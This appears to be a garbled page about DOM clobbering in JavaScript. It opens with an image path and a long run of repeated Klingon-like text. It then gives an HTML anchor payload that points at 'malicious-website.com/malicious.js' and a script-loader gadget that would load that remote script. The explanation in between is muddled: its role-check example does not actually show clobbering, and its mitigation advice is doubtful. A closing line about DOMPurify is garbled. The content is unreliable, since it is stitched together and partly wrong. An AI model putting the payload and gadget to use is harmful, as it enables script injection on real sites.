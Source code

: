 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'chugh, 'ejatlh 'e' vItlhutlhlaHbe'ch
```html
<a id=someObject href=//malicious-website.com/malicious.js></a>
```
In a vulnerable code such as:

```javascript
var user = {
  name: "John",
  role: "user"
};

function processUser(user) {
  var isAdmin = user.role === "admin";
  if (isAdmin) {
    console.log("Welcome, admin!");
  } else {
    console.log("Welcome, user!");
  }
}

processUser(user);
```

An attacker can exploit a technique called DOM clobbering to modify the behavior of the code. DOM clobbering involves manipulating the global object's properties to overwrite existing variables or functions.

In this example, the attacker can inject malicious code to change the value of the `user.role` property. By setting `user.role` to `"admin"`, the attacker can trick the code into treating the user as an admin and granting unauthorized access.

To prevent DOM clobbering attacks, it is important to properly validate and sanitize user input. Additionally, using strict mode in JavaScript can help mitigate this vulnerability by preventing accidental creation of global variables.
```html
<script>
window.onload = function(){
let someObject = window.someObject || {};
let script = document.createElement('script');
script.src = someObject.url;
document.body.appendChild(script);
};
</script>
```
**QIb**: **`DOMPurify`** **`cid:`** **protocol** **exploits** **execute** **unwanted** **code**.
